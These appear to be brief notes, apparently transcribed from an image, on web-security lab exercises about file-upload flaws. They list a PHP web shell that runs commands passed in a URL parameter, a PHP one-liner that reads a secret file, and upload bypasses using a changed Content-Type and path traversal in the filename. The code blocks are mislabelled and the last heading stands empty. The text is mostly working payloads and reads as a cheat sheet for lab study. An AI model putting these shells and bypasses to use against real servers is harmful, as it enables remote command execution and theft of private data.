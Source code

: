 **Web shell upload via Content-Type restriction bypass**
**<?php echo system($_GET["cmd"]); ?>**

```css
Web shell upload via Content-Type restriction bypass
Change the content-type to required file and we can upload our shell

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

```python
Web shell upload via path traversal
Change the path of the file from filename="exploit.php" To filename="../exploit.php" or "..%2fexploit.php"
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

```
Web shell upload via extension blacklist bypass
```
